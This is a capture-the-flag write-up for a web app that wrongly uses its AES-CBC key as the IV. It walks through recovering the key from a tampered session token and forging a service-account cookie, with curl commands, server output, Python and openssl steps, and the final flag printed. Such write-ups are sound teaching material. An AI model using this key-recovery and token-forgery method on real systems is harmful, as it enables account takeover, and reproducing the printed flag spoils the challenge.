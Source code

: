 # Solution

The challenge description gives a hint:
> We are so sure in our service that we have put our biggest secret under the service account performing the cleanup.

The target of this challenge is to access the service account that performs the cleanup - `svcaccount`.

Analyzing the source code points out an interesting way of initializing `Cipher`:
```python
key = os.urandom(KEY_LENGTH)
cipher = Cipher(algorithms.AES(key), modes.CBC(key))
```

What we see here is AES in CBC mode being initialized with key being set as both key and IV. This is a big security issue because recovering of the key is very easy in this case:
- encrypt plaintext that is 3 blocks (3\*16 bytes) large
- obtain ciphertext
- convert second block of ciphertext into 16 bytes of `\x00`
- repeat the first block of ciphertext as the third block
- feed modified ciphertext to the decryption algorithm
- obtain decryption result
- perform xor between the first and third 16-byte block of the decryption result to get the key

Luckily for us, AES in CBC mode is used when generating user's session token:
```python
def session_token(username: str) -> str:
    now = datetime.utcnow()
    nowf = now.strftime(DATETIME_FORMAT)

    shah = aes_encrypt(f"{username}{TOKEN_SPLIT_CH}{nowf}".encode())
    token = binascii.hexlify(shah)
    instance = socket.gethostname()
    
    sess_tok = {
        TOKEN_USER_KEY: username,
        TOKEN_SESS_KEY: token,
        TOKEN_INSTANCE_KEY: instance
    }
    return urlencode(sess_tok)
```

In order for us to enter the service account, we have to perform the aformentioned attack on AES in CBC mode to obtain encryption key and craft our own token.

## Obtaining ciphertext and performing conversions

We have to be very careful on the username length since we want to obtain a ciphertext that is exactly 3 blocks long. The building blocks of our token looks like this:
```
{USERNAME};YYYY-MM-DD.HH:mm
___________________________
??????????<---- len 17 --->
```

If we mind the padding, we should have a username of 15 byte length in order to produce a 3-block ciphertext (`[15 BYTE USERNAME][17 BYTE DATETIME][16 BYTE PADDING]`).

By simply registering a user with a large enough username and logging in, we can easily obtain the ciphertext in the cookie:
```sh
$ curl "http://172.17.0.2:8080/register" -d "username=123456789012345&password=123" -i
HTTP/1.1 302 FOUND
Server: gunicorn
Date: Thu, 24 Nov 2022 18:51:46 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 199
Location: /login
Vary: Cookie
Set-Cookie: session=eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIlJlZ2lzdHJhdGlvbiBzdWNjZXNzZnVsIl19XX0.Y3-7GQ.H4WyWgzMThwzxKuD4npkD4VHhPo; HttpOnly; Path=/

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/login">/login</a>. If not, click the link.
$ curl "http://172.17.0.2:8080/login" -d "username=123456789012345&password=123" -i
HTTP/1.1 302 FOUND
Server: gunicorn
Date: Thu, 24 Nov 2022 18:52:07 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 189
Location: /
Set-Cookie: token=user=123456789012345&sess=3d87e206a17df723cd7146943e8393eaad73c9b652479642d7ceb201ebd862af8d7fb5211159abf2827a3d2d4626ab40&inst=4876fde4e15e; Path=/

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/">/</a>. If not, click the link.
```

We can easily tamper with the token by hand:
```
Before: 3d87e206a17df723cd7146943e8393eaad73c9b652479642d7ceb201ebd862af8d7fb5211159abf2827a3d2d4626ab40
After:  3d87e206a17df723cd7146943e8393ea000000000000000000000000000000003d87e206a17df723cd7146943e8393ea
```

## Obtaining cipher key

Supplying the tampered cookie we obtain the ciphertext:
```sh
$ curl "http://172.17.0.2:8080/secret" -H "Cookie: token=user=123456789012345&sess=3d87e206a17df723cd7146943e8393ea000000000000000000000000000000003d87e206a17df723cd7146943e8393ea&inst=4876fde4e15e" -i
HTTP/1.1 200 OK
Server: gunicorn
Date: Thu, 24 Nov 2022 18:53:30 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 977
Set-Cookie: token=; Expires=Thu, 01 Jan 1970 00:00:00 GMT; Path=/
Set-Cookie: session=; Expires=Thu, 01 Jan 1970 00:00:00 GMT; Max-Age=0; HttpOnly; Path=/

<!doctype html>
<title>Secret whisperer</title>
<link rel="stylesheet" href="/static/style.css">
<nav>
<h1><blink><a href="/">Secret whisperer</a></blink></h1>
</nav>
<section class="content">
  <header>
    
      <div class="flash">401 Unauthorized: Bad decrypt for 3d87e206a17df723cd7146943e8393ea000000000000000000000000000000003d87e206a17df723cd7146943e8393ea? b&#39;3132333435363738393031323334353b15775f90716901750508f3a51bbfd7b3ad8d58b0da9e3222eea3f4d22bb87564&#39;</div>
...
```

The obtained ciphertext blocks one and three must be xor'd in order to obtain the key:
```python
>>> def xor(a: bytes, b: bytes) -> bytes:
...     l = len(a) if len(a) < len(b) else len(b)
...     return bytes([a[i]^b[i] for i in range(l)])
... 
>>> from binascii import unhexlify
>>> a = unhexlify('3132333435363738393031323334353b15775f90716901750508f3a51bbfd7b3ad8d58b0da9e3222eea3f4d22bb87564')
>>> xor(a[:16], a[32:48])
b'\x9c\xbfk\x84\xef\xa8\x05\x1a\xd7\x93\xc5\xe0\x18\x8c@_'
>>> key = _
>>> from binascii import hexlify
>>> hexlify(key)
b'9cbf6b84efa8051ad793c5e0188c405f'
```

## Crafting service account token and getting flag

With the given key, we create the service account token. Keep in mind that the time used is UTC, so the local time cannot be used as reference:
```sh
$ echo -ne "svcaccount;2022-11-24.19:09\x05\x05\x05\x05\x05" | openssl enc -aes-128-cbc -iv 9cbf6b84efa8051ad793c5e0188c405f -K 9cbf6b84efa8051ad793c5e0188c405f -nosalt -nopad | xxd -p -c 32
eb66d9eea909b1e8df27cf8a078c898a54a3394b0f79d2d474c6050fc536be42
$ curl -sS "http://172.17.0.2:8080/secret" -H "Cookie: token=user=svcaccount&sess=eb66d9eea909b1e8df27cf8a078c898a54a3394b0f79d2d474c6050fc536be42&inst=4876fde4e15e" | grep ibctf
			<tr><td colspan="2">ibctf{t1m3_c4n_n3v3r-m3nd-C4r3l3ss_Wh1sp3rs_OF_a-g00d-fr13nd}</td></tr>
```

All described steps made by hand can be automated by a script. The automated version is in `solve.py`:
```sh
$ python3 solve.py
ibctf{t1m3_c4n_n3v3r-m3nd-C4r3l3ss_Wh1sp3rs_OF_a-g00d-fr13nd}
```
